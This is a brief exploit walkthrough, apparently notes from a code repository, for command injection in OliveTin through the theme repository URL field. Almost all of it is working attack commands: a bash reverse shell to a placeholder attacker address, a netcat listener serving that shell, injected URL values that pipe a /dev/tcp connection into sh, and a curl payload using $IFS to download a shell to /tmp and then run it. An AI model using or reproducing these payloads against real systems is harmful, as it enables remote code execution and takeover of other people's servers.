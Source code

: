on attack box make a rev shell file
```
echo "bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1" > shell.sh
```

then run netcat on port 80 (cant have any special ports)
```
nc -lvp 80 < shell.sh
```

from the olivetin theme repo then (only from docker container)
```
http://a;sh</dev/tcp/<attacker_ip>/80
```

set up python server with rev shell in same directory 
```bash
python3 -m http.server  80
```
on service(.deb file or .rpm) this writes to the host
```powershell
http://;/usr/bin/curl$IFS"http://<attcker_ip>/shell"$IFS"-o"$IFS"/tmp/shell"
```
then in a second command do to get shell
```powershell
http://;bash$IFS/tmp/shell
```
